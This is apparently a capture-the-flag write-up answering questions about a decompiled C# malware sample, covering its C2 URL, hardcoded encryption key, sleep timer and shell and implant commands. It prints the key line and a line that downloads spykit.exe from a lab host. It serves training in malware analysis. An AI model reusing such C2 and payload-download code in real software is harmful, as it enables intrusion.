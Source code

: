 1. What is the HTTP method used to submit the command execution output?<br>
    **Answer:** POST

1. What key is used by the malware to encrypt or decrypt the C2 data?<br>
    In `Encryptor` or `Decryptor` function, the `bytes` variable contains the key attacker use to encrypt/decrypt the C2 data.<br>
    ```C#
    byte[] bytes = Encoding.ASCII.GetBytes("youcanthackthissupersecurec2keys");
    ```
    **Answer:** youcanthackthissupersecurec2keys

1. What is the first HTTP URL used by the malware?
    In `Main` function, the `url` is the first URL attacker used in `PostIt`.<br>
    **Answer:** http://mcgreedysecretc2.thm/reg

1. How many seconds is the hardcoded value used by the sleep function?<br>  
    In `Main`, `Sleeper` function is call with value 15000 miliseconds corresponding to 15 seconds.<br>
    **Answer:** 15

1. What is the C2 command the attacker uses to execute commands via cmd.exe?<br>
    If the command is `shell`, the code will call `ExecuteCommand` function.<br>
    **Answer:** shell

1. What is the domain used by the malware to download another binary?<br>
    If the command is `implant`, the PE file will download another PE file.<br>
    ```c#
    string text2 = Program.Implant("http://stash.mcgreedy.thm/spykit.exe");
    ```
    **Answer:** stash.mcgreedy.thm

